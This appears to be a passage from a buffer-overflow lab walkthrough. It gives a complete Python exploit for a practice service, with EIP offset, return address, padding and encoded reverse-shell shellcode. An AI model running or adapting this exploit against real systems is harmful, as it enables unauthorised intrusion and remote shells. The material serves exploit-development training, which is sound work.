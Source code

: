 NOP values are different for different CPUs. 

To create ssome space in memory for the payload to unpack itself, set the padding variable to a string of `16` or more 
`nops` (`"\x90"`) bytes:

```text
padding = "\x90" * 16
```

## Exploit

With the correct prefix, offset, return address, padding, and payload set, exploit the buffer overflow to get a 
reverse shell.

```python
#!/usr/bin/env python3
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978                            # EIP offset
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"               # Overwriting the return pointer
padding = "\x83\xec\x10"                # NOP sled 
payload = ("\xda\xd5\xba\xdb\x9b\x35\xe7\xd9\x74\x24\xf4\x5d\x29\xc9\xb1"
"\x52\x31\x55\x17\x03\x55\x17\x83\x36\x67\xd7\x12\x34\x70\x9a"
"\xdd\xc4\x81\xfb\x54\x21\xb0\x3b\x02\x22\xe3\x8b\x40\x66\x08"
"\x67\x04\x92\x9b\x05\x81\x95\x2c\xa3\xf7\x98\xad\x98\xc4\xbb"
"\x2d\xe3\x18\x1b\x0f\x2c\x6d\x5a\x48\x51\x9c\x0e\x01\x1d\x33"
"\xbe\x26\x6b\x88\x35\x74\x7d\x88\xaa\xcd\x7c\xb9\x7d\x45\x27"
"\x19\x7c\x8a\x53\x10\x66\xcf\x5e\xea\x1d\x3b\x14\xed\xf7\x75"
"\xd5\x42\x36\xba\x24\x9a\x7f\x7d\xd7\xe9\x89\x7d\x6a\xea\x4e"
"\xff\xb0\x7f\x54\xa7\x33\x27\xb0\x59\x97\xbe\x33\x55\x5c\xb4"
"\x1b\x7a\x63\x19\x10\x86\xe8\x9c\xf6\x0e\xaa\xba\xd2\x4b\x68"
"\xa2\x43\x36\xdf\xdb\x93\x99\x80\x79\xd8\x34\xd4\xf3\x83\x50"
"\x19\x3e\x3b\xa1\x35\x49\x48\x93\x9a\xe1\xc6\x9f\x53\x2c\x11"
"\xdf\x49\x88\x8d\x1e\x72\xe9\x84\xe4\x26\xb9\xbe\xcd\x46\x52"
"\x3e\xf1\x92\xf5\x6e\x5d\x4d\xb6\xde\x1d\x3d\x5e\x34\x92\x62"
"\x7e\x37\x78\x0b\x15\xc2\xeb\x3e\xf8\x94\x2a\x56\xfe\x24\xac"
"\x1c\x77\xc2\xc4\x72\xde\x5d\x71\xea\x7b\x15\xe0\xf3\x51\x50"
"\x22\x7f\x56\xa5\xed\x88\x13\xb5\x9a\x78\x6e\xe7\x0d\x86\x44"
"\x8f\xd2\x15\x03\x4f\x9c\x05\x9c\x18\xc9\xf8\xd5\xcc\xe7\xa3"
"\x4f\xf2\xf5\x32\xb7\xb6\x21\x87\x36\x37\xa7\xb3\x1c\x27\x71"
"\x3b\x19\x13\x2d\x6a\xf7\xcd\x8b\xc4\xb9\xa7\x45\xba\x13\x2f"
"\x13\xf0\xa3\x29\x1c\xdd\x55\xd5\xad\x88\x23\xea\x02\x5d\xa4"
"\x93\x7e\xfd\x4b\x4e\x3b\x1d\xae\x5a\x36\xb6\x77\x0f\xfb\xdb"
"\x87\xfa\x38\xe2\x0b\x0e\xc1\x11\x13\x7b\xc4\x5e\x93\x90\xb4"
"\xcf\x76\x96\x6b\xef\x52")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
	s.connect((ip, port))
	print("[+] Sending evil buffer")
	s.send(bytes(buffer + "\r\n", "latin-1"))
	print("[+] Done!")
except socket.error:
	print("[-] Could not connect.")
```